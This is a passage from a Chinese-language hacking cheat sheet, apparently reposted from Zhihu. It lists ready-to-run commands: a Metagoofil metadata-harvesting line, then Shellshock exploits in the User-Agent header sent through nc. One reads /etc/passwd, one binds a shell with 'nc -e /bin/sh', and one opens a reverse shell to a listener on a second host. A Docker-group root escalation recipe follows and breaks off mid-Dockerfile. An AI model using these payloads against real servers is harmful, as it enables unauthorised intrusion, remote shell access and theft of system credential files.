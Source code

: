 官网地址 [http://www. edge-security.com/metag oofil.php](https://link.zhihu.com/?target=http%3A//www.edge-security.com/metagoofil.php)

拓展学习《metagoofil用法》： [https:// blog.csdn.net/feier7501 /article/details/8937376](https://link.zhihu.com/?target=https%3A//blog.csdn.net/feier7501/article/details/8937376)

> 
<pre>$ python metagoofil.py -d example.com -t doc,pdf -l 200 -n 50 -o examplefiles -f results.html</pre>


### 59.利用 Shellshock

一个发现并利用服务器 Shellshock 的工具

安装及使用： [https:// github.com/nccgroup/sho cker](https://link.zhihu.com/?target=https%3A//github.com/nccgroup/shocker)

> 
<pre>$ ./shocker.py -H 192.168.56.118  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose


// 查看文件
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(&lt;/etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80


// 绑定 shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80


// 反弹 Shell
$ nc -l -p 443
$ echo "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.103 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118</pre>


### 60.获取 Docker 的 Root

> 
<pre>// 获取  Docker 的 Root
// user 必须在 docker 用户组中
ek@victum:~/docker-test$ id
uid=1001(ek) gid=1001(ek) groups=1001(ek),114(docker)


ek@victum:~$ mkdir docker-test
ek@victum:~$ cd docker-test


ek@victum:~$ cat &gt; Dockerfile
FROM debian:wheezy


ENV WORKDIR /stuff


RUN mkdir -p $WORKDIR
